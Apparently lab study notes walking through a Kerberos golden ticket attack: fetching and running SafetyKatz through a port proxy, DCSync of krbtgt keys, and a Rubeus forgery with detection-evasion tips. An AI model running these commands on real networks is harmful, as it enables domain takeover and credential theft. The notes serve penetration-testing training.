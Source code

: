 
> [!NOTE] **OPSEC NOTICE**
> In golden ticket, there is no corresponding TGT request for TGS/Service ticket requests as the TGT is forged. This can easily be caught by a SIEM or blue teamers

A golden ticket is signed and encrypted by the hash of krbtgt account
which makes it a valid TGT ticket. The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.

> [!NOTE] **NOTE**
> As a good practice, it is recommended to change the password of the krbtgt account twice as password history is maintained for the account.
> 
> In real world environments, the krbtgt hash is rarely to never changed because who wants to fuck that up

Execute mimikatz (or a variant) on DC as DA to get krbtgt hash
```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"
```

Use DCSync to get AES keys for krbtgt account. This requires DA privileges (or a user that has replication rights on the domain object) and doesn't require RCE on the DC
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```


Use Rubeus to forge a Golden ticket command with attributes similar to a normal TGT - **AND ALWAYS TARGET AN ACTIVE DA** 
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```

> [!NOTE] **IMPORTANT**
> Remember to add `/ptt` at the end of the generated command to inject the ticket into our current session

Now we can run the generated command which is OPSEC Friendly forge. 
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe evasive-golden 
/aes256:<keys> /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

```powershell
winrs -r:dcorp-dc cmd
```

```
154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848
```

| Option                                   | Description                                                                         |
| ---------------------------------------- | ----------------------------------------------------------------------------------- |
| golden                                   | Name of the module                                                                  |
| /aes256:154CB6624[SNIP]                  | AES256 keys of the krbtgt account. Using AES keys makes the attack more silent      |
| /user:Administrator                      | Username for which the TGT is generated                                             |
| /id:500                                  | User RID (retrieved from the DC) (Default 500)                                      |
| /pgid:513                                | Primary Group ID (retrieved from the DC) (Default 513)                              |
| /groups:544,512,520,513                  | Groups the user is a member of (retrieved from the DC) (Default 520,512,513,519,518 |
| /domain:dollarcorp.moneycorp.local       | FQDN of the domain (retrieved from the DC)                                          |
| /sid:S-1-5-21-71981[SNIP]                | SID of the current domain                                                           |
| /pwdlastset:"11/11/2022 6:33:55 AM"      | The PasswordLastSet for the user (retrieved from the DC)                            |
| /minpassage:1                            | “Minimum Password Age” in days (retrieved from the DC)                              |
| /logoncount:2453                         | Logon Count for the user (retrieved from the DC)                                    |
| /netbios:dcorp                           | NetBIOS name of the domain (retrieved from the DC)                                  |
| /dc:DCORP-DC.dollarcorp.moneycorp.local  | FQDN of the DC (retrieved from the DC)                                              |
| /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD | UserAccountControl Flags (retrieved from the DC)                                    |
| /ptt                                     | Inject in the current process                                                       |


![[Pasted image 20250508054121.png]]